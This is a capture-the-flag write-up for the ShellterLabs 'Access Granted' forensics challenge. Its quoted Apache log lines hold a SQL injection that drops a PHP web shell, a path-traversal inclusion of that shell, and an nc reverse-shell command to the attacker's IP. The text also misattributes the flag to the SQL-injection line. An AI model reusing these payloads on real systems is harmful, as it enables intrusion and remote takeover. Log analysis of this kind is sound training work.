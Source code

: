 Access Granted (20 points):

Um dos nossos servidores foi invadido. Agora precisamos analisar os logs da nossa aplicação web pra descobrir qual a gravidade do ataque, e o que ele fez na máquima

"One of our servers has been invaded. Now we need to analyze the logs of our web app to find out whats the gravity of the attack, and what he did in the box."

Lets check the file:

root@debian:~/shellterlabs/acess_granted_20# file access.log
access.log: ASCII text, with very long lines

Looks like a plain text web server log with a lot of 404 responses, so lets filtrate a little:

root@debian:~/shellterlabs/acess_granted_20# cat access.log | grep -v "404"
172.16.59.236 - - [24/Feb/2017:11:37:51 -0500] "GET /shellter/login.php HTTP/1.1" 200 - "http://172.16.59.138/shellter/login.php" "Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
172.16.59.236 - - [24/Feb/2017:11:47:15 -0500] "POST /shellter/login.php HTTP/1.1" 200 - "http://172.16.59.138/shellter/login.php" "Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
172.16.59.236 - - [24/Feb/2017:11:47:35 -0500] "GET /shellter/index.php HTTP/1.1" 200 4584 "http://172.16.59.138/shellter/login.php" "Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
172.16.59.236 - - [24/Feb/2017:11:48:13 -0500] "GET /shellter/security.php HTTP/1.1" 200 4104 "http://172.16.59.138/shellter/index.php" "Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
172.16.59.236 - - [24/Feb/2017:11:48:14 -0500] "GET /shellter/security.php HTTP/1.1" 200 4104 "http://172.16.59.138/shellter/index.php" "Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
172.16.59.236 - - [24/Feb/2017:11:50:20 -0500] "POST /shellter/security.php HTTP/1.1" 302 - "http://172.16.59.138/shellter/security.php" "Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
172.16.59.236 - - [24/Feb/2017:11:51:25 -0500] "GET /shellter/security.php HTTP/1.1" 200 4187 "http://172.16.59.138/shellter/security.php" "Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
172.16.59.236 - - [24/Feb/2017:11:52:11 -0500] "GET /shellter/forum/321/ HTTP/1.1" 200 4333 "http://172.16.59.138/shellter/security.php" "Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
172.16.59.236 - - [24/Feb/2017:11:54:25 -0500] "GET /shellter/forum/321/ HTTP/1.1" 200 4333 "http://172.16.59.138/shellter/security.php" "Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
172.16.59.236 - - [24/Feb/2017:11:54:32 -0500] "GET /shellter/forum/321/?id=%25%27+and+1%3D0+union+select+null%2C+_utf8%22%3C%3Fphp+system%28%24_GET%5B%27cmd%27%5D%29%3B+%3F%3E%22+INTO+DUMPFILE+%22%2Ftmp%2Fshell%22+%23&Submit=Submit HTTP/1.1" 200 5221 "http://172.16.59.138/shellter/forum/321/" "Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
172.16.59.236 - - [24/Feb/2017:11:54:44 -0500] "GET /shellter/forum/321/?id=%25%27+and+1%3D0+union+select+null%2C+_utf8%22%3C%3Fphp+system%28%24_GET%5B%27cmd%27%5D%29%3B+%3F%3E%22+INTO+DUMPFILE+%22%2Ftmp%2Fshell%22+%23&Submit=Submit HTTP/1.1" 200 43 "http://172.16.59.138/shellter/forum/321/" "Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
172.16.59.236 - - [24/Feb/2017:11:55:39 -0500] "GET /shellter/ HTTP/1.1" 200 4497 "-" "Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
172.16.59.236 - - [24/Feb/2017:11:57:02 -0500] "GET /shellter/forum/fi/?page=include.php HTTP/1.1" 200 4083 "http://172.16.59.138/shellter/" "Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
172.16.59.236 - - [24/Feb/2017:11:57:32 -0500] "GET /shellter/forum/fi/?page=include.php HTTP/1.1" 200 4083 "http://172.16.59.138/shellter/" "Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
172.16.59.236 - - [24/Feb/2017:11:58:41 -0500] "GET /shellter/forum/fi/?page=../../../../../../tmp/shell%00&cmd=nc%20172.16.59.236%20441%20-e%20/bin/bash%20echo%20%22c2hlbGx0ZXJ7MTRtaDRjazNyfQ==%22 HTTP/1.1" 200 4088 "-" "Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
172.16.59.236 - - [24/Feb/2017:12:38:03 -0300] "GET /shellter/icons/ HTTP/1.1" 403 502 "-" "Mozilla/5.0 (Windows NT 5.1; rv:31.0) Gecko/20100101 Firefox/31.0"
::1 - - [24/Feb/2017:12:38:38 -0300] "OPTIONS * HTTP/1.0" 200 125 "-" "Apache/2.4.7 (Ubuntu) PHP/5.5.9-1ubuntu4.20 (internal dummy connection)"

Some path transversal and sql attemps where the flag lies this line:

172.16.59.236 - - [24/Feb/2017:11:54:44 -0500] "GET /shellter/forum/321/?id=%25%27+and+1%3D0+union+select+null%2C+_utf8%22%3C%3Fphp+system%28%24_GET%5B%27cmd%27%5D%29%3B+%3F%3E%22+INTO+DUMPFILE+%22%2Ftmp%2Fshell%22+%23&Submit=Submit HTTP/1.1" 200 43 "http://172.16.59.138/shellter/forum/321/" "Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"

root@debian:~/shellterlabs/acess_granted_20# echo "c2hlbGx0ZXJ7MTRtaDRjazNyfQ==" | base64 -d
shellter{14mh4ck3r}
